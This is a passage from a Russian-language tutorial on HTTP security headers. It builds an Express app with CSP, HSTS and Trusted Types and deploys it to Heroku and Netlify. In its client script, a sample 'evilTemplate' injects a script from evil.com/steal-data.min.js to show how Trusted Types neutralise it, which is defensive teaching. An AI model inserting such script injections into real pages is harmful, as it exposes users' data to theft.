Заголовок `Referrer-Policy` определяет содержание информации о реферере, указываемой в заголовке <a href="https://developer.mozilla.org/ru/docs/Web/HTTP/Headers/Referer">`Referer`</a>. Заголовок `Referer` содержит адрес запроса, например, адрес предыдущей страницы или адрес загруженного изображения (или другого ресурса). Он используется для аналитики, логирования, оптимизации кеша и т.д. Однако он также может использоваться для слежения или кражи информации, выполнения побочных эффектов, приводящих к утечке чувствительных пользовательских данных и т.д.

```
Referrer-Policy: no-referrer
```

_Возможные значения_

| Значение                        | Описание                                                                                                                                                   |
| ------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------- |
| no-referrer                     | Заголовок `Referer` не включается в запрос                                                                                                                 |
| no-referrer-when-downgrade      | Значение по умолчанию. Реферер указывается при выполнении запроса между `HTTPS` и `HTTPS`, но не указывается при выполнении запроса между `HTTPS` и `HTTP` |
| origin                          | Указывается только источник запроса (например, реферером документа `https://example.com/page.html` будет `https://example.com`)                            |
| origin-when-cross-origin        | При выполнении запроса в пределах одного источника указывается полный `URL`, иначе указывается только источник (как в предыдущем примере)                  |
| same-origin                     | При выполнении запроса в пределах одного источника указывается источник, в противном случае, реферер не указывается                                        |
| strict-origin                   | Похоже на `no-referrer-when-downgrade`, но указывается только источник                                                                                     |
| strict-origin-when-cross-origin | Сочетание `strict-origin` и `origin-when-cross-origin`                                                                                                     |
| unsafe-url                      | Всегда указывается полный `URL`                                                                                                                            |

_Обратите внимание_: данный заголовок в настоящее время не поддерживается мобильным `Safari`.

### <a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Clear-Site-Data">`Clear-Site-Data`</a>

Заголовок `Clear-Site-Data` запускает очистку хранящихся в браузере данных (куки, хранилище, кеш), связанных с источником. Это предоставляет разработчикам контроль над данными, локально хранящимися в браузере пользователя. Данный заголовок может использоваться, например, в процессе выхода пользователя из приложения (logout) для очистки данных, хранящихся на стороне клиента.

```
Clear-Site-Data: "*"
```

Возможные значения:

| Значение            | Описание                                                                                                                                                                                                                                                                              |
| ------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| "cache"             | Сообщает браузеру, что сервер хочет очистить локально кешированные данные для источника ответа на запрос                                                                                                                                                                              |
| "cookies"           | Сообщает браузеру, что сервер хочет удалить все куки для источника. Данные для аутентификации также будут очищены. Это влияет как на сам домен, так и на его поддомены                                                                                                                    |
| "storage"           | Сообщает браузеру, что сервер хочет очистить все хранилища браузера (`localStorage`, `sessionStorage`, `IndexedDB`, регистрация сервис-воркеров — для каждого зарегистрированного СВ вызывается метод `unregister()`, `AppCache`, `WebSQL`, данные `FileSystem API`, данные плагинов) |
| "executionContexts" | Сообщает браузеру, что сервер хочет перезагрузить все контексты браузера (в настоящее время почти не поддерживается)                                                                                                                                                                  |
| "\*"                | Сообщает браузеру, что сервер хочет удалить все данные                                                                                                                                                                                                                                |

_Обратите внимание_: данный заголовок в настоящее время не поддерживается `Safari`.

### <a href="https://www.w3.org/TR/permissions-policy-1/">`Permissions-Policy`</a>

Данный заголовок является заменой заголовка <a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Feature-Policy">`Feature-Policy`</a> и предназначен для управления доступом к некоторым продвинутым возможностям.

```
Permissions-Policy: camera=(), fullscreen=*, geolocation=(self "https://example.com" "https://another.example.com")
```

В данном случае мы полностью запрещаем доступ к камере (видеовходу) устройства, разрешаем доступ к методу `requestFullScreen()` (для включения полноэкранного режима воспроизведения видео) для всех, а к информации о местонахождении устройства — только для источников `example.com` и `another.example.com`.

_Возможные директивы_

| Директива                       | Описание                                                                                                                                                                                                                                                                         |
| ------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| accelerometer                   | Управляет тем, может ли текущий документ собирать информацию об <a href="https://ru.wikipedia.org/wiki/%D0%90%D0%BA%D1%81%D0%B5%D0%BB%D0%B5%D1%80%D0%BE%D0%BC%D0%B5%D1%82%D1%80">акселерации (проекции кажущегося ускорения)</a> устройства с помощью интерфейса `Accelerometer` |
| ambient-light-sensor            | Управляет тем, может ли текущий документ собирать информацию о количестве света в окружающей устройство среде с помощью интерфейса `AmbientLightSensor`                                                                                                                          |
| autoplay                        | Управляет тем, может ли текущий документ автоматически воспроизводить медиа, запрошенное через интерфейс `HTMLMediaElement`                                                                                                                                                      |
| battery                         | Определяет возможность использования `Battery Status API`                                                                                                                                                                                                                        |
| camera                          | Определяет возможность использования видеовхода устройства                                                                                                                                                                                                                       |
| display-capture                 | Определяет возможность захвата экрана с помощью метода `getDisplayMedia()`                                                                                                                                                                                                       |
| document-domain                 | Определяет возможность установки `document.domain`                                                                                                                                                                                                                               |
| encrypted-media                 | Определяет возможность использования `Encrypted Media Extensions API (EME)`                                                                                                                                                                                                      |
| execution-while-not-rendered    | Определяет возможность выполнения задач во фреймах без их рендеринга (например, когда они скрыты или их свойство `diplay` имеет значение `none`)                                                                                                                                 |
| execution-while-out-of-viewport | Определяет возможность выполнения задач во фреймах, находящихся за пределами области просмотра                                                                                                                                                                                   |
| fullscreen                      | Определяет возможность использования метода `requestFullScreen()`                                                                                                                                                                                                                |
| geolocation                     | Определяет возможность использования `Geolocation API`                                                                                                                                                                                                                           |
| gyroscope                       | Управляет тем, может ли текущий документ собирать информацию об ориентации устройства с помощью `Gyroscope API`                                                                                                                                                                  |
| layout-animations               | Определяет возможность показа анимации                                                                                                                                                                                                                                           |
| legacy-image-formats            | Определяет возможность отображения изображений устаревших форматов                                                                                                                                                                                                               |
| magnetometer                    | Управляет тем, может ли текущий документ собирать информацию об ориентации устройства с помощью `Magnetometer API`                                                                                                                                                               |
| microphone                      | Определяет возможность использования аудиовхода устройства                                                                                                                                                                                                                       |
| midi                            | Определяет возможность использования `Web MIDI API`                                                                                                                                                                                                                              |
| navigation-override             | Определяет возможность управления пространственной навигацией (spatial navigation) механизмами, разработанными автором приложения                                                                                                                                                |
| oversized-images                | Определяет возможность загрузки и отображения больших изображений                                                                                                                                                                                                                |
| payment                         | Определяет возможность использования `Payment Request API`                                                                                                                                                                                                                       |
| picture-in-picture              | Определяет возможность воспроизведения видео в режиме "картинка в картинке"                                                                                                                                                                                                      |
| publickey-credentials-get       | Определяет возможность использования `Web Authentication API` для извлечения публичных ключей, например, через `navigator.credentials.get()`                                                                                                                                     |
| sync-xhr                        | Определяет возможность использования `WebUSB API`                                                                                                                                                                                                                                |
| vr                              | Определяет возможность использования `WebVR API`                                                                                                                                                                                                                                 |
| wake-lock                       | Определяет возможность использования `Wake Lock API` для запрета переключения устройства в режим сохранения энергии                                                                                                                                                              |
| screen-wake-lock                | Определяет возможность использования `Screen Wake Lock API` для запрета блокировки экрана устройства                                                                                                                                                                             |
| web-share                       | Определяет возможность использования `Web Share API` для передачи текста, ссылок, изображений и другого контента                                                                                                                                                                 |
| xr-spatial-tracking             | Определяет возможность использования `WebXR Device API` для взаимодействия с сессией `WebXR`                                                                                                                                                                                     |

_Возможные значения_

- `=()` — полный запрет;
- `=*` — полный доступ;
- `(self "https://example.com")` — предоставление разрешения только указанному источнику.

Спецификация рассматриваемого заголовка находится в статусе рабочего черновика, поэтому его поддержка оставляет желать лучшего:



Перейдем к практической части.

## Разработка Express-приложения

Создаем директорию для проекта, переходим в нее и инициализируем проект:

```bash
mkdir secure-app
cd !$

yarn init -yp
# или
npm init -y
```

Формируем структуру проекта:

```
- public
 - favicon.png
 - index.html
 - style.css
 - script.js
- index.js
- .gitignore
- ...
```

Иконку можно найти <a href="https://www.flaticon.com/free-icon/shield_1161388?term=shield&page=1&position=17&page=1&position=17&related_id=1161388&origin=search">здесь</a>.

Набросаем какой-нибудь незамысловатый код.

В `public/index.html` мы подключаем иконку, стили, скрипт, Google-шрифты, `Bootstrap` и `Boostrap Icons` через `CDN`, создаем элементы для заголовка, даты, времени и кнопок:

```html
<!DOCTYPE html>
<html lang="ru">
 <head>
   <meta charset="UTF-8" />
   <meta http-equiv="X-UA-Compatible" content="IE=edge" />
   <meta name="viewport" content="width=device-width, initial-scale=1.0" />
   <title>Secure App</title>
   <link rel="icon" href="favicon.png" />
   <link rel="preconnect" href="https://fonts.googleapis.com" />
   <link rel="preconnect" href="https://fonts.gstatic.com" crossorigin />
   <link
     href="https://fonts.googleapis.com/css2?family=Montserrat&display=swap"
     rel="stylesheet"
   />
   <link
     href="https://cdn.jsdelivr.net/npm/bootstrap@5.0.1/dist/css/bootstrap.min.css"
     rel="stylesheet"
     integrity="sha384-+0n0xVW2eSR5OomGNYDnhzAbDsOXxcvSN1TPprVMTNDbiYZCxYbOOl7+AMvyTG2x"
     crossorigin="anonymous"
   />
   <link
     rel="stylesheet"
     href="https://cdn.jsdelivr.net/npm/bootstrap-icons@1.5.0/font/bootstrap-icons.css"
   />
   <link rel="stylesheet" href="style.css" />
 </head>
 <body>
   <div class="container">
     <h1>Secure App</h1>
     <p>
       <i class="bi bi-calendar"></i>
       Сегодня <time class="date"></time>
     </p>
     <p>
       <i class="bi bi-clock"></i>
       Сейчас <time class="time"></time>
     </p>
     <div class="buttons">
       <button class="btn btn-danger btn-stop">Остановить таймер</button>
       <button class="btn btn-primary btn-add">Добавить шаблон</button>
       <button class="btn btn-success btn-get">Получить заголовки</button>
     </div>
   </div>

   <script src="script.js"></script>
 </body>
</html>
```

Добавляем стили в `public/style.css`

```css
* {
 margin: 0;
 padding: 0;
 box-sizing: border-box;
 font-family: 'Montserrat', sans-serif;
}

body {
 min-height: 100vh;
 display: grid;
 place-content: center;
 text-align: center;
}

h1 {
 margin: 0.5em 0;
 text-transform: uppercase;
 font-size: 3rem;
}

p {
 font-size: 1.15rem;
}

.buttons {
 margin: 0.5em 0;
 display: flex;
 flex-direction: column;
 align-items: center;
 gap: 0.5em;
}

button {
 cursor: pointer;
}

pre {
 margin: 0.5em 0;
 white-space: pre-wrap;
 text-align: left;
}
```

В `public/script.js` мы делаем следующее:

- определяем политику доверенных типов;
- создаем утилиты для получения ссылки на DOM-элемент, форматирования даты и времени и регистрации обработчика (по умолчанию одноразового и запускающего колбэк при возникновении события `click`);
- получаем ссылки на DOM-элементы;
- определяем настройки для форматирования даты и времени;
- добавляем дату и время в качестве текстового содержимого соответствующих элементов;
- определяем колбэки для обработчиков: для остановки таймера, добавления HTML-шаблона с потенциально опасным кодом и получения HTTP-заголовков;
- регистрируем обработчики.

```js
// политика доверенных типов
let policy
if (window.trustedTypes && trustedTypes.createPolicy) {
 policy = trustedTypes.createPolicy('escapePolicy', {
   createHTML: (str) => str.replace(/\</g, '&lt').replace(/>/g, '&gt')
 })
}

// утилиты
// для получения ссылки на DOM-элемент
const getEl = (selector, parent = document) => parent.querySelector(selector)
// для форматирования даты и времени
const getDate = (options, locale = 'ru-RU', date = Date.now()) =>
 new Intl.DateTimeFormat(locale, options).format(date)
// для регистрации обработчика
const on = (el, cb, event = 'click', options = { once: true }) =>
 el.addEventListener(event, cb, options)

// ссылки на DOM-элементы
const containerEl = getEl('.container')
const dateEl = getEl('.date', containerEl)
const timeEl = getEl('.time', containerEl)
const stopBtnEl = getEl('.btn-stop', containerEl)
const addBtnEl = getEl('.btn-add', containerEl)
const getBtnEl = getEl('.btn-get', containerEl)

// настройки для даты
const dateOptions = {
 weekday: 'long',
 day: 'numeric',
 month: 'long',
 year: 'numeric'
}
// настройки для времени
const timeOptions = {
 hour: 'numeric',
 minute: 'numeric',
 second: 'numeric'
}

// добавляем текущую дату в качестве текстового содержимого соответствующего элемента
dateEl.textContent = getDate(dateOptions)
// добавляем текущее время в качестве текстового содержимого соответствующего элемента каждую секунду
const timerId = setInterval(() => {
 timeEl.textContent = getDate(timeOptions)
}, 1000)

// колбэки для обработчиков (в каждом колбэке происходит удаление соответствующей кнопки)
// для остановки таймера
const stopTimer = () => {
 clearInterval(timerId)
 stopBtnEl.remove()
}
// для добавления HTML-шаблона с потенциально вредоносным кодом
const addTemplate = () => {
 const evilTemplate = `<script src="https://evil.com/steal-data.min.js"></script>`
 // при попытке вставить необезвреженный шаблон будет выброшено исключение
 // Uncaught TypeError: Failed to execute 'insertAdjacentHTML' on 'Element': This document requires 'TrustedHTML' assignment.
 containerEl.insertAdjacentHTML('beforeend', policy.createHTML(evilTemplate))
 addBtnEl.remove()
}
// для получения HTTP-заголовков
const getHeaders = () => {
 const req = new XMLHttpRequest()
 req.open('GET', location, false)
 req.send(null)
 const headers = req.getAllResponseHeaders()
 const preEl = document.createElement('pre')
 preEl.textContent = headers
 containerEl.append(preEl)
 getBtnEl.remove()
}

// регистрируем обработчики
on(stopBtnEl, stopTimer)
on(addBtnEl, addTemplate)
on(getBtnEl, getHeaders)
```

Устанавливаем зависимости.

Для продакшна:

```bash
yarn add express
```

Для разработки:

```bash
yarn add -D nodemon open-cli
```

- <a href="https://expressjs.com/ru/">`express`</a> — Node.js-фреймворк, упрощающий разработку сервера;
- <a href="https://www.npmjs.com/package/nodemon">`nodemon`</a> — утилита для запуска сервера для разработки и его автоматического перезапуска при обновлении соответствующего файла;
- <a href="https://www.npmjs.com/package/open-cli">`open-cli`</a> — утилита для автоматического открытия вкладки браузера по указанному адресу.

Определяем в `package.json` команды для запуска серверов:

```javascripton
"scripts": {
 "dev": "open-cli http://localhost:3000 && nodemon index.js",
 "start": "node index.js"
}
```

Приступаем к реализации сервера.

Справедливости ради следует отметить, что в экосистеме `Node.js` имеется специальная утилита для установки HTTP-заголовков, связанных с безопасностью веб-приложений — <a href="https://helmetjs.github.io/">`Helmet`</a>. Шпаргалку по работе с этой утилитой вы найдете <a href="https://github.com/harryheman/React-Total/blob/main/md/helmet.md">здесь</a>.

Также существует специальная утилита для работы с `CORS` — <a href="https://www.npmjs.com/package/cors">`Cors`</a>. Шпаргалку по работе с этой утилитой вы найдете <a href="https://github.com/harryheman/React-Total/blob/main/md/cors.md">здесь</a>.

Большинство заголовков можно определить сразу:

```
// предотвращаем `MIME sniffing`
'X-Content-Type-Options': 'nosniff',

// для старых браузеров, плохо поддерживающих `CSP`
'X-Frame-Options': 'DENY',
'X-XSS-Protection': '1; mode=block',

// по умолчанию браузеры блокируют CORS-запросы
// дополнительные CORS-заголовки
'Cross-Origin-Resource-Policy': 'same-site',
'Cross-Origin-Opener-Policy': 'same-origin-allow-popups',
'Cross-Origin-Embedder-Policy': 'require-corp',

// запрещаем включать информацию о реферере в заголовок `Referer`
'Referrer-Policy': 'no-referrer',

// инструктируем браузер использовать `HTTPS` вместо `HTTP`
// 31536000 секунд — это 365 дней
'Strict-Transport-Security': 'max-age=31536000; includeSubDomains'
```

Также добавим заголовок <a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Expect-CT">`Expect-CT`</a>:

```
// 86400 секунд — это 1 сутки
'Expect-CT': 'enforce, max-age=86400'
```

Блокируем доступ к камере, микрофону, информации о местонахождении и `Payment Request API`:

```
'Permissions-Policy': 'camera=(), microphone=(), geolocation=(), payment=()'
```

Директивы для `CSP`:

```
'Content-Security-Policy': `
 // запрещаем загрузку плагинов
 object-src 'none';
 // разрешаем выполнение только собственных скриптов
 script-src 'self';
 // разрешаем загрузку только собственных изображений
 img-src 'self';
 // разрешаем открытие приложения только в собственных фреймах
 frame-ancestors 'self';
 // включаем политику доверенных типов для скриптов
 require-trusted-types-for 'script';
 // блокируем смешанный контент
 block-all-mixed-content;
 // инструктируем браузер использовать `HTTPS` для ресурсов, загружаемых по `HTTP`
 upgrade-insecure-requests
`
```

_Обратите внимание_: все директивы должны быть указаны в одну строку без переносов. Мы не определяем директивы для стилей и шрифтов, поскольку они загружаются из других источников.

Также _обратите внимание_, что мы не используем `nonce` для скриптов, поскольку мы не рендерим разметку на стороне сервера, но я приведу соответствующий код.

`index.js`:

```js
const express = require('express')
// утилита для генерации уникальных значений
// const crypto = require('crypto')

// создаем экземпляр Express-приложения
const app = express()

// посредник для генерации `nonce`
/*
const getNonce = (_, res, next) => {
 res.locals.cspNonce = crypto.randomBytes(16).toString('hex')
 next()
}
*/

// посредник для установки заголовков
// 31536000 — 365 дней
// 86400 — 1 сутки
const setSecurityHeaders = (_, res, next) => {
 res.set({
   'X-Content-Type-Options': 'nosniff',
   'X-Frame-Options': 'DENY',
   'X-XSS-Protection': '1; mode=block',
   'Cross-Origin-Resource-Policy': 'same-site',
   'Cross-Origin-Opener-Policy': 'same-origin-allow-popups',
   'Cross-Origin-Embedder-Policy': 'require-corp',
   'Referrer-Policy': 'no-referrer',
   'Strict-Transport-Security': 'max-age=31536000; includeSubDomains',
   'Expect-CT': 'enforce, max-age=86400',
   'Content-Security-Policy': `object-src 'none'; script-src 'self'; img-src 'self'; frame-ancestors 'self'; require-trusted-types-for 'script'; block-all-mixed-content; upgrade-insecure-requests`,
   'Permissions-Policy': 'camera=(), microphone=(), geolocation=(), payment=()'
 })
 next()
}

// удаляем заголовок `X-Powered-By`
app.disable('x-powered-by')
// подключаем посредник для генерации `nonce`
// app.use(getNonce)
// подключаем посредник для установки заголовков
app.use(setSecurityHeaders)
// определяем директорию со статическими файлами
app.use(express.static('public'))

// определяем порт
const PORT = process.env.PORT || 3000
// запускам сервер
app.listen(PORT, () => {
 console.log('Сервер готов')
})
```

Выполняем команду `yarn dev` или `npm run dev` (разумеется, на вашей машине должен быть установлен <a href="https://nodejs.org/en/download/">`Node.js`</a>). Данная команда запускает сервер для разработки и открывает вкладку браузера по адресу `http://localhost:3000`.




Отлично! Теперь развернем приложение на `Heroku` и проверим его безопасность с помощью `Security Headers` и `WebPageTest`.

## Деплой Express-приложения на `Heroku`

Создаем аккаунт на <a href="https://www.heroku.com">`Heroku`</a>.

Глобально устанавливаем <a href="https://devcenter.heroku.com/articles/heroku-cli">`Heroku CLI`</a>:

```bash
yarn global add heroku
# или
npm i -g heroku
```

Проверяем установку:

```bash
heroku -v
```

Находясь в корневой директории проекта, инициализируем Git-репозиторий (разумеется, на вашей машине должен быть установлен <a href="https://git-scm.com/downloads">`git`</a>), добавляем и фиксируем изменения (не забудьте добавить `node_modules` в `.gitignore`):

```bash
git init
git add .
git commit -m "Create secure app"
```

Создаем удаленный репозиторий на `Heroku`:

```bash
# авторизация
heroku login
# создание репо
heroku create
# подключение к нему
git remote -v
```

Разворачиваем приложение:

```bash
git push heroku master
```

Инструкцию по развертыванию приложения на `Heroku` можно найти <a href="https://devcenter.heroku.com/articles/git">здесь</a>.

После выполнения этой команды, в терминале появится `URL` вашего приложения, развернутого на `Heroku`, например, `https://tranquil-meadow-01695.herokuapp.com/`.

Перейдите по указанному адресу и проверьте работоспособность приложения.

Заходим на <a href="https://securityheaders.com/">`Security Headers`</a>, вставляем `URL` приложения в поле `enter address here` и нажимаем на кнопку `Scan`:



Получаем рейтинг приложения:



В `Supported By` читаем `Вау, отличная оценка...`.

Заходим на <a href="https://www.webpagetest.org/">`WebPageTest`</a>, вставляем `URL` приложения в поле `Enter a website URL...` и нажимаем на кнопку `Start Test ->`:


Получаем результаты оценки приложения (нас интересует первая оценка — `Security score`):


Похоже, мы все сделали правильно. Круто!

## Деплой приложения на `Netlify`

Переносим файлы `favicon.png`, `index.html`, `script.js` и `style.css` из папки `public` в отдельную директорию, например, `netlify`.

Для настройки сервера `Netlify` используется файл <a href="https://docs.netlify.com/configure-builds/file-based-configuration/">`netlify.toml`</a>. Создаем данный файл в директории проекта. Нас интересует только раздел `[[headers]]`:

```
[[headers]]
 for = "/*"
 [headers.values]
   X-Content-Type-Options = "nosniff"
   X-Frame-Options = "DENY"
   X-XSS-Protection = "1; mode=block"
   Cross-Origin-Resource-Policy = "same-site"
   Cross-Origin-Opener-Policy = "same-origin-allow-popups"
   Cross-Origin-Embedder-Policy = "require-corp"
   Referrer-Policy = "no-referrer"
   Strict-Transport-Security = "max-age=31536000; includeSubDomains"
   Expect-CT = "enforce, max-age=86400"
   Content-Security-Policy = "object-src 'none'; script-src 'self'; img-src 'self'; frame-ancestors 'self'; require-trusted-types-for 'script'; block-all-mixed-content; upgrade-insecure-requests"
   Permissions-Policy = "camera=(), microphone=(), geolocation=(), payment=()"
```

- `for = "/*"` означает для всех запросов;
- `[header.values]` — заголовки и их значения (просто переносим их из Express-сервера с учетом особенностей синтаксиса).

Глобально устанавливаем <a href="https://docs.netlify.com/cli/get-started/">`Netlify CLI`</a>:

```bash
yarn global add netlify-cli
# или
npm i -g netlify-cli
```

Проверяем установку:

```bash
netlify -v
```

Авторизуемся:

```bash
netlify login
```

Можно запустить сервер для разработки (это необязательно):

```bash
netlify dev
```

Данная команда запускает приложение и открывает вкладку браузера по адресу `http://localhost:8888`.

Разворачиваем приложение в тестовом режиме:

```bash
netlify deploy
```

Выбираем `Create & configure a new site`, свою команду (например, `Igor Agapov's team`), оставляем `Site name` пустым и выбираем директорию со сборкой приложения (у нас такой директории нет, поэтому оставляем значение по умолчанию — `.`):


Получаем `URL` черновика веб-сайта (`Website Draft URL`), например, `https://60f3e6013d0afb2ce71a5623--infallible-pasteur-d015e7.netlify.app`. Можно перейти по указанному адресу и проверить работоспособность приложения.

Разворачиваем приложение в продакшн-режиме:

```bash
netlify deploy -p
```

- `-p` или `--prod` означает производственный режим.

Получаем `URL` приложения (`Website URL`), например, `https://infallible-pasteur-d015e7.netlify.app/`. Опять же, можно перейти по указанному адресу и проверить работоспособность приложения.

Инструкцию по развертыванию приложения на `Netlify` можно найти <a href="https://www.netlify.com/blog/2019/05/28/deploy-in-seconds-with-netlify-cli/">здесь</a>.

Возвращаемся на `Security Headers` и `WebPageTest` и проверяем, насколько безопасным является наше `Netlify-приложение`:



